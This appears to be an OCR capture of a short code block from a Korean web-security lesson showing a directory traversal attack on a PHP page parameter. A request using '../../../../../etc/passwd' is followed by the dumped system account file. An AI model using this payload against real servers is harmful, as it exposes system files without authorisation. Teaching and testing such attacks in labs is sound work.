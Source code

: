 ```
# 전
https://.../pathtrav_ex4.php?page=/var/www/html/pages/home.html

# 디렉터리 순회 공격
https://.../pathtrav_ex4.php?page=/var/www/html/pages/../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false
```



